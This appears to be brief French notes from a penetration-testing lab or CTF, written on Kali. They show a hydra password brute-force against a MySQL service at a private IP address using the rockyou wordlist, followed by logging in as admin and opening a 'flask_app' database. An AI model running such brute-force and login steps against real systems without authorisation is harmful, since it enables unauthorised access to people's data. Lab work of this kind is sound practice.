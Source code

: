 Dans Kali : 

- hydra -L users.txt -P rockyou.txt -f -v -V 192.168.1.36 mysql

- sudo apt install mariadb-client-core

- mysql -h 192.168.1.36 -u admin -p

- show databases;
- use flask_app;

